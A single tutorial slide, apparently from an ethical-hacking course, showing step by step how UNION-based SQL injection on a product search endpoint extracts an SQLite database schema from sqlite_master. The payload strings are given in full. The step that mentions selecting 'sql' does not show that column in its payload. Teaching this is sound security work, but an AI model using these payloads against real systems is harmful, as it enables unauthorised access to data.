

# Extracting the Database Schema
Search queries are directed to /rest/products/search?q=
Experiment to find that the original query is closed by ‘))
Now let’s try a UNION SELECT !
UNION SELECT joins up a second query from another table
What table should we join up? In SQLite (which we know is the engine from error messages), schema is stored in sqlite_master
So let’s try ')) UNION SELECT * FROM sqlite_master--
Now we need to match up the columns - a requirement of UNION SELECT
Keep adding arbitrary values: ')) UNION SELECT '1' FROM sqlite_master--, ')) UNION SELECT '1', '2' FROM sqlite_master--, …
Eventually, we find ')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master-- works!
Now select ‘sql’ as a column, and provide a search term to filter out unwanted results: ethical_hackers')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--
Now we can read the CREATE statements used for each table!
Note: the column names will still be written in terms of the Products table